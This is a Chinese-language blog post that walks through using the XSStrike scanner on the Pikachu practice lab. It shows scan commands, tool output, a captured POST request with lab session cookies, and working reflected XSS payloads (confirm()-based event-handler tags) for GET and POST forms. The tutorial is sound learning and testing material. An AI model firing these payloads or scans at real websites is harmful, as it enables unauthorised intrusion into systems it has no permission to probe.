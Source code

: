 ```yaml
---
layout:     post
title:      关于XSS漏洞的抓取
subtitle:   
date:       2022-04-13
author:     Distiny
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - CTF
    - web安全
---
```


# XSS漏洞



### xsstrike用法

> usage: xsstrike.py [-h] [-u target] [--data paramdata] [-e encode] [--fuzzer]
>                    [--update] [--timeout timeout] [--proxy] [--params]
>                    [--crawl] [--json] [--path] [--seeds args_seeds]
>                    [-f args_file] [-l level] [--headers [add_headers]]
>                    [-t threadcount] [-d delay] [--skip] [--skip-dom] [--blind]
>                    [--console-log-level {debug,info,run,good,warning,error,critical,vuln}]
>                    [--file-log-level {debug,info,run,good,warning,error,critical,vuln}]
>                    [--log-file log_file]
>
> optional arguments:
>   -h, --help            show this help message and exit
>   -u target, --url target
>                         url
>   --data paramdata      post data
>   -e encode, --encode encode
>                         encode payloads
>   --fuzzer              fuzzer
>   --update              update
>   --timeout timeout     timeout
>   --proxy               use prox(y|ies)
>   --params              find params
>   --crawl               crawl
>   --json                treat post data as json
>   --path                inject payloads in the path
>   --seeds args_seeds    load crawling seeds from a file
>   -f args_file, --file args_file
>                         load payloads from a file
>   -l level, --level level
>                         level of crawling
>   --headers [add_headers]
>                         add headers
>   -t threadcount, --threads threadcount
>                         number of threads
>   -d delay, --delay delay
>                         delay between requests
>   --skip                don't ask to continue
>   --skip-dom            skip dom checking
>   --blind               inject blind xss payload while crawling
>   --console-log-level {debug,info,run,good,warning,error,critical,vuln}
>                         console logging level
>   --file-log-level {debug,info,run,good,warning,error,critical,vuln}
>                         file logging level
>   --log-file log_file   name of the file to log

### 利用xsstrike查找漏洞方法

#### 反射性xss（get）

首先访问对应网站http://192.168.1.110/pikachu/vul/xss/xss_reflected_get.php

尝试提交信息，例如输入kobe，点击submit

看到http://192.168.1.110/pikachu/vul/xss/xss_reflected_get.php?message=kobe&submit=submit

执行python xsstrike.py -u "http://192.168.1.110/pikachu/vul/xss/xss_reflected_get.php?message=kobe&submit=submit"

得到结果如下（部分）

```bash
python xsstrike.py -u "http://192.168.1.110/pikachu/vul/xss/xss_reflected_get.php?message=kobe&submit=submit"

        XSStrike v3.1.466666

[~] Checking for DOM vulnerabilities
[+] WAF Status: Offline
[!] Testing parameter: message
[!] Reflections found: 1
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 3072
------------------------------------------------------------
[+] Payload: <a%09ONmouseover%0a=%0aconfirm()%0dx>v3dm0s
[!] Efficiency: 96
[!] Confidence: 10
------------------------------------------------------------
```

尝试这个payload

http://192.168.1.110/pikachu/vul/xss/xss_reflected_get.php?message=%3Ca%09ONmouseover%0a=%0aconfirm()%0dx%3Ev3dm0s&submit=submit

发现可以利用！

#### 反射型xss（post）

首先访问对应网页http://192.168.1.110/pikachu/vul/xss/xsspost/post_login.php

登录，用户名admin，密码123456

输入kobe，尝试点击submit

再次输入，这次我们用burpsuite抓包，得到如下：

```bash
POST /pikachu/vul/xss/xsspost/xss_reflected_post.php HTTP/1.1
Host: 192.168.1.110
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.110
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.110/pikachu/vul/xss/xsspost/xss_reflected_post.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=pn4nqa6t1cvlfp9t9m90ofminh
Connection: close

message=kobe&submit=submit
```

执行漏洞扫描：

```bash
python xsstrike.py -u "http://192.168.1.110/pikachu/vul/xss/xsspost/xss_reflected_post.php" --data "message=kobe&submit=submit" --headers "Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815"
```

得到结果（部分）

```bash
        XSStrike v3.1.466666

[~] Checking for DOM vulnerabilities
[+] WAF Status: Offline
[!] Testing parameter: message
[!] Reflections found: 1
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 3072
------------------------------------------------------------
[+] Payload: <DEtaIls%09onpoIntereNter%09=%09[8].find(confirm)>
[!] Efficiency: 91
[!] Confidence: 10
------------------------------------------------------------
```

尝试利用，即用burpsuite修改一下post的数据

```
message=<DEtaIls%09onpoIntereNter%09=%09[8].find(confirm)>&submit=submit
```

发现漏洞利用成功。

### 针对burpsuite无法抓取localhost的问题

别用localhost了，可以用本机的IP地址进行访问，也一样的，这样burpsuite就可以直接抓包了。
